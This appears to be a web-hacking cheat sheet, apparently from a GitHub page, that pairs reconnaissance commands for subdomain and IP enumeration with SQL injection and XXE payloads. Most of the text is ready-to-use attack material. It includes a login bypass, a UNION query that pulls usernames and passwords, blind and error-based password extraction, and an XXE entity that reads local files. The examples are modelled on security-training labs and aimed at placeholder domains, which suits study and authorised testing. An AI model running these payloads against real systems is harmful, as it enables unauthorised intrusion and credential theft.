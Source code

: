 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

### Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

### Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

### SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)

On Oracle, every SELECT query must use the FROM keyword and specify a valid table: `' UNION SELECT NULL FROM DUAL--`

conditional based blind SQL injection:`' union select null from users where username='administrator' and 1 = (SELECT CASE WHEN (length(password)=10) THEN 1/(SELECT 0) ELSE NULL END)--`

### Extracting sensitive data via verbose SQL error messages

Payload: `' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## [](#header-2) XXE

### Exploiting XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
